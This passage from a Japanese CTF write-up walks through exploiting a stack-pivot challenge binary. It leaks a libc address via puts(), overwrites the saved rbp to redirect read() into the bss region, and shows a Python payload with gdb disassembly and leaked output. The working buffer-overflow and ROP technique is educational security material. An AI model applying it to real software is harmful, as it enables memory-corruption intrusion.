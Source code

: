 `puts()`は、`rdi`に入っている値を文字列のポインタとして受け取り、その先頭から終端の`'\0'`までの文字列を標準出力に表示します。<br>
つまり、今のレジスタの状態のまま`puts()`を呼び出すことで、libcの関数である_IO_funlockfileのアドレスをリークできそうです。<br>
さらに、vuln関数の途中では puts() が呼ばれており、ちょうどそこに戻れば、ループしつつlibcのアドレスリークが可能になります。<br>


```bash
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
...
0x000055555555518b <+18>:    call   0x555555555030 <puts@plt>
```

こんな感じのイメージ！<br>
```text
puts((char *)0x7fffffffb8a0);
⇒　\xd0\xbf\xe1\xf7\xff\x7f
```

2回目のペイロードを作る前に、今回ROPを作るにも長さが8バイトしかないのでどこかにROPchainを書くところを探します。<br>
問題名からもstack pivotを使うことが予想されるので、作戦を立てました。<br>

スタックのアドレスがわからないので、スタックには書けないのでbss領域に書くことにしました。<br>
`read()`で書くことになるのですが、流れをおさらいします。

```text
read(int fd, void *buf, size_t count);
⇒ read(ファイルディスクリプタ,書き込み先アドレス,バイト数);
⇒ read(0,bss領域のアドレス,バイト数);　
※0が標準入力

レジスタはこのように使われます。
read(rdi, rsi, rdx);
```

vuln関数内で`read()`が呼ばれる流れは以下のようになってます。

```bash
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
...
   0x00005555555551a4 <+43>:    lea    rax,[rbp-0x30]
   0x00005555555551a8 <+47>:    mov    edx,0x40
   0x00005555555551ad <+52>:    mov    rsi,rax
   0x00005555555551b0 <+55>:    mov    edi,0x0
   0x00005555555551b5 <+60>:    call   0x555555555060 <read@plt>
```
saved rbpを変更することで、ループ後の`read()`で使われるrsi(書き込み先アドレス)の値を変更できそうですね。

2回目はこんなペイロードになりました。<br>
saved rbpにはbss領域のアドレスを入れています。最初は低位アドレスにしてたのですが、system関数の実行に失敗して<br>
高位アドレスにしてみたら成功しちゃいました。<br>
<br>
本来`puts()`で"welcome～"されますが、libcの`_IO_funlockfile`のアドレスの文字`\xd0\xbf\xe1\xf7\xff\x7f\`<br>
として出力されています。puts()が呼ばれているのでループ成功です。🎉<br><br>
`\x88UUUUは、書き換えたsaved rbpのアドレスなので今回は使いません。<br>

```python
payload = b'b' *48
payload += p64(program_base + 0x4860)
payload += p64(program_base + binary.symbols['vuln'] + 18)

[出力結果]
b'Message: bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb`\x88UUUU\n\xd0\xbf\xe1\xf7\xff\x7f\n> '
```
2回目のpayload送信後のスタックの状態は以下のようになりました。
